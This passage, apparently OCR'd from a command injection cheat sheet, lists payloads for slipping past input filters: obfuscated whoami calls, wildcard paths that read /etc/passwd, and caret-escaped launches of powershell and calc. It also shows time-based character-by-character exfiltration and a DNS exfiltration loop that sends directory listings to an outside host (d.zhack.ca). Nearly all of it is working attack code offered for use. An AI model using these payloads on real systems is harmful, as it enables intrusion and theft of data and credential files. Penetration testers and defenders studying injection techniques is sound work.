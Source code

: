```powershell
who$@ami
echo whoami|$0
```


#### Bypass with $()

```powershell
who$()ami
who$(echo am)i
who`echo am`i
```

#### Bypass with variable expansion

```powershell
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

#### Bypass with wildcards

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```


## Data Exfiltration

### Time based data exfiltration

Extracting data : char by char

```powershell
swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```

### DNS based data exfiltration

Based on the tool from `https://github.com/HoLyVieR/dnsbin` also hosted at dnsbin.zhack.ca

```powershell
1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
```
